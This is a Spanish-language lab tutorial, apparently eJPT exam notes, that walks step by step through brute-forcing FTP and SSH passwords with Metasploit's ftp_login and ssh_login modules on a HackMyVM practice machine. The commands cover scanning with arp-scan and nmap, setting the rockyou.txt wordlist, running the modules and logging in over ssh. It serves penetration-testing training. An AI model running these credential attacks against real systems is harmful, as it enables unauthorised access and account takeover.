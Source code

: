
----
- TAG: #Ataques #Fuerza-Bruta #Metasploit 
---
# Ataques de Fuerza Bruta con Metasploit para SSH y FTP

En este apartado, aprenderemos a realizar ataques de fuerza bruta utilizando **Metasploit** para los protocolos **ssh** y **ftp**. Utilizaremos la máquina **Friendly3** de **HackMyVM** para practicar estos ataques.

## Preparativos

1. Importamos y arrancamos la máquina **Friendly3** de [HackMyVM](https://hackmyvm.eu/machines/?v=friendly3).
2. Desde nuestra máquina **Kali Linux**, localizamos la máquina víctima utilizando `arp-scan`:
    ```bash
    arp-scan -I wlan0 --localnet
    ```
3. Realizamos un escaneo de puertos con **nmap** para identificar los puertos abiertos:
    ```bash
    nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 1.2.3.4
    ```
4. Al finalizar el escaneo, observamos que los puertos 21 y 22 están abiertos.

## Ataque de Fuerza Bruta al Protocolo FTP

1. Abrimos **Metasploit**:
    ```bash
    msfconsole
    ```
2. Utilizamos la función `search` para buscar módulos relacionados con **ftp_login**:
    ```bash
    search ftp_login
    ```
3. Seleccionamos el módulo encontrado (por ejemplo, `use auxiliary/scanner/ftp/ftp_login`):
    ```bash
    use 0
    ```
4. Mostramos las opciones de configuración:
    ```bash
    show options
    ```
5. Configuramos los parámetros necesarios:
    - **PASS_FILE**: Le pasamos el directorio del archivo `rockyou.txt`:
        ```bash
        set PASS_FILE /usr/share/wordlists/rockyou.txt
        ```
    - **USERNAME**: Especificamos el usuario que conocemos (en este caso, `juan`):
        ```bash
        set USERNAME juan
        ```
    - **RHOSTS**: Configuramos la IP de la máquina objetivo:
        ```bash
        set RHOSTS 1.2.3.4
        ```
6. Verificamos las opciones configuradas:
    ```bash
    show options
    ```
7. Ejecutamos el módulo para iniciar el ataque de fuerza bruta:
    ```bash
    run
    ```

Después de un tiempo, Metasploit nos mostrará la combinación de usuario y contraseña encontrada, por ejemplo:
- Usuario: `juan`
- Contraseña: `alexis`

## Ataque de Fuerza Bruta al Protocolo SSH

1. En Metasploit, buscamos módulos relacionados con **ssh_login**:
    ```bash
    search ssh_login
    ```
2. Seleccionamos el módulo encontrado (por ejemplo, `use auxiliary/scanner/ssh/ssh_login`):
    ```bash
    use 0
    ```
3. Configuramos los parámetros necesarios de manera similar al ataque FTP:
    - **USERNAME**: Especificamos el usuario `juan`:
        ```bash
        set USERNAME juan
        ```
    - **PASS_FILE**: Le pasamos el directorio del archivo `rockyou.txt`:
        ```bash
        set PASS_FILE /usr/share/wordlists/rockyou.txt
        ```
    - **RHOSTS**: Configuramos la IP de la máquina objetivo:
        ```bash
        set RHOSTS 1.2.3.4
        ```
4. Verificamos las opciones configuradas:
    ```bash
    show options
    ```
5. Ejecutamos el módulo para iniciar el ataque de fuerza bruta:
    ```bash
    run
    ```

Una vez obtenida la combinación correcta de usuario y contraseña, podemos acceder al sistema utilizando **ssh**:
```bash
ssh juan@1.2.3.4
```

## Resumen de Pasos

1. **Preparativos**:
    - Importar y arrancar la máquina **Friendly3**.
    - Localizar la máquina víctima con `arp-scan`.
    - Realizar un escaneo de puertos con **nmap**.

2. **Ataque FTP**:
    - Buscar y seleccionar el módulo `ftp_login` en Metasploit.
    - Configurar `PASS_FILE`, `USERNAME`, y `RHOSTS`.
    - Ejecutar el módulo.

3. **Ataque SSH**:
    - Buscar y seleccionar el módulo `ssh_login` en Metasploit.
    - Configurar `PASS_FILE`, `USERNAME`, y `RHOSTS`.
    - Ejecutar el módulo.
    - Acceder al sistema con **ssh**.

Con estos pasos, podrás realizar ataques de fuerza bruta a los protocolos **ssh** y **ftp** utilizando **Metasploit**, lo cual es una habilidad esencial para el examen **eJPT**. ¡Buena suerte!